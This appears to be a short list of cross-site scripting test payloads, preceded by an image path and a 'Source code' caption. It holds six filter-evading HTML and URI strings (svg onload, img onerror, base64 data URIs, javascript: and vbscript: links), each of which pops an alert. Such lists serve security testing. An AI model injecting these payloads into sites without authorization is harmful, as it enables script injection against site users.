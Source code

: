 <svg onload=alert(1)//
<img src=x onerror=alert(1)//
<link rel=import href=data:;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg
<a href=data:;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg
<a href="javascript:alert(1)//
<a href="vbscript:msgbox(1)//
